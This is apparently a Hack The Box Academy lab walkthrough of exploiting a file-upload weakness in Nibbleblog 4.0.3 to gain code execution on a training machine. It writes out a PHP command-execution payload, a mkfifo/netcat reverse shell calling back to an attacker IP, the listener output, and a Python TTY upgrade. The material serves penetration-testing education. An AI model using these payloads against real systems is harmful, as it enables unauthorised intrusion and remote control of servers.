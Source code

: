 Now that we are logged in to the admin portal, we need to attempt to turn this access into code execution and ultimately gain reverse shell access to the webserver. We know a `Metasploit` module will likely work for this, but let us enumerate the admin portal for other avenues of attack. Looking around a bit, we see the following pages:

| **Page**   | **Contents**                                                                                                                                                           |
| ---------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `Publish`  | making a new post, video post, quote post, or new page. It could be interesting.                                                                                       |
| `Comments` | shows no published comments                                                                                                                                            |
| `Manage`   | Allows us to manage posts, pages, and categories. We can edit and delete categories, not overly interesting.                                                           |
| `Settings` | Scrolling to the bottom confirms that the vulnerable version 4.0.3 is in use. Several settings are available, but none seem valuable to us.                            |
| `Themes`   | This Allows us to install a new theme from a pre-selected list.                                                                                                        |
| `Plugins`  | Allows us to configure, install, or uninstall plugins. The `My image` plugin allows us to upload an image file. Could this be abused to upload `PHP` code potentially? |

Attempting to make a new page and embed code or upload files does not seem like the path. Let us check out the plugins page.

![http://10.129.42.190/nibbleblog/admin.php?controller=plugins&action=list](https://academy.hackthebox.com/storage/modules/77/plugins.png)

Let us attempt to use this plugin to upload a snippet of `PHP` code instead of an image. The following snippet can be used to test for code execution.

```php
<?php system('id'); ?>
```

Save this code to a file and then click on the `Browse` button and upload it.

![http://10.129.42.190/nibbleblog/admin.php?controller=plugins&action=config&plugin=my_image](https://academy.hackthebox.com/storage/modules/77/upload.png)

We get a bunch of errors, but it seems like the file may have uploaded.

```shell-session
Warning: imagesx() expects parameter 1 to be resource, boolean given in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 26

Warning: imagesy() expects parameter 1 to be resource, boolean given in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 27

Warning: imagecreatetruecolor(): Invalid image dimensions in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 117

Warning: imagecopyresampled() expects parameter 1 to be resource, boolean given in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 118

Warning: imagejpeg() expects parameter 1 to be resource, boolean given in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 43

Warning: imagedestroy() expects parameter 1 to be resource, boolean given in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 80
```

Now we have to find out where the file uploaded if it was successful. Going back to the directory brute-forcing results, we remember the `/content` directory. Under this, there is a `plugins` directory and another subdirectory for `my_image`. The full path is at `http://<host>/nibbleblog/content/private/plugins/my_image/`. In this directory, we see two files, `db.xml` and `image.php`, with a recent last modified date, meaning that our upload was successful! Let us check and see if we have command execution.

```shell-session
Luis Miguel Jaime Hernandez@htb[/htb]$ curl http://10.129.42.190/nibbleblog/content/private/plugins/my_image/image.php

uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
```

We do! It looks like we have gained remote code execution on the web server, and the Apache server is running in the `nibbler` user context. Let us modify our PHP file to obtain a reverse shell and start poking around the server.

Let us edit our local PHP file and upload it again. This command should get us a reverse shell. As mentioned earlier in the Module, there are many reverse shell cheat sheets out there. Some great ones are [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) and [HighOn,Coffee](https://highon.coffee/blog/reverse-shell-cheat-sheet/).

Let us use the following `Bash` reverse shell one-liner and add it to our `PHP` script.

```shell-session
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ATTACKING IP> <LISTENING PORT) >/tmp/f
```

We will add our `tun0` VPN IP address in the `<ATTACKING IP>` placeholder and a port of our choice for `<LISTENING PORT>` to catch the reverse shell on our `netcat` listener. See the edited `PHP` script below.

Code: php

```php
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 9443 >/tmp/f"); ?>
```

We upload the file again and start a `netcat` listener in our terminal:

```shell-session
0xdf@htb[/htb]$ nc -lvnp 9443

listening on [any] 9443 ...
```

`cURL` the image page again or browse to it in `Firefox` at http://nibbleblog/content/private/plugins/my_image/image.php to execute the reverse shell.

```shell-session
Luis Miguel Jaime Hernandez@htb[/htb]$ nc -lvnp 9443

listening on [any] 9443 ...
connect to [10.10.14.2] from (UNKNOWN) [10.129.42.190] 40106
/bin/sh: 0: can't access tty; job control turned off
$ id

uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
```

Furthermore, we have a reverse shell. Before we move forward with additional enumeration, let us upgrade our shell to a "nicer" shell since the shell that we caught is not a fully interactive TTY and specific commands such as `su` will not work, we cannot use text editors, tab-completion does not work, etc. This [post](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/) explains the issue further as well as a variety of ways to upgrade to a fully interactive TTY. For our purposes, we will use a `Python` one-liner to spawn a pseudo-terminal so commands such as `su` and `sudo` work as discussed previously in this Module.

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

Try the various techniques for upgrading to a full TTY and pick one that works best for you. Our first attempt fails as `Python2` seems to be missing from the system!

```shell-session
$ python -c 'import pty; pty.spawn("/bin/bash")'

/bin/sh: 3: python: not found

$ which python3

/usr/bin/python3
```

We have `Python3` though, which works to get us to a friendlier shell by typing `python3 -c 'import pty; pty.spawn("/bin/bash")'`. Browsing to `/home/nibbler`, we find the `user.txt` flag as well as a zip file `personal.zip`.

```shell-session
nibbler@Nibbles:/home/nibbler$ ls

ls
personal.zip  user.txt
```


Gain a foothold on the target and submit the user.txt flag